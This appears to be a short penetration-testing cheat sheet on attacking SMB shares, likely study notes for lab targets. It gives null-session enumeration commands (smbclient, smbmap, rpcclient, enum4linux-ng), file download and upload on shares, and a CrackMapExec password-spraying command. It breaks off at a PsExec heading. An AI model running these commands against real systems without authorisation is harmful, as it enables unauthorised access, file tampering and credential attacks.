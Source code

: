 ### Null Session with smbclient to list shares

```
smbclient -N -L //10.129.14.128
```

### Null Session with smbmap to list shares

```
smbmap -H 10.129.14.128
```

### Null Session with smbmap to browse the directories

```
smbmap -H 10.129.14.128 -r notes
```

### Null Session with smbmap to READ/WRITE into a Share

**READ**

```
smbmap -H 10.129.14.128 --download "notes\note.txt"
```

**WRITE**

```
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

### Null Session with rpcclient to gather information

```
rpcclient -U'%' 10.10.110.17
```

### Null Session with enum4linux-ng to gather information

```
./enum4linux-ng.py 10.10.11.45 -A -C
```

## **Protocol Specifics Attacks**

### Brute Force & Password Spraying with CrackMapExec

```
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

**Note**: By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found

### Remote Code Execution Using Impacket-PsExec
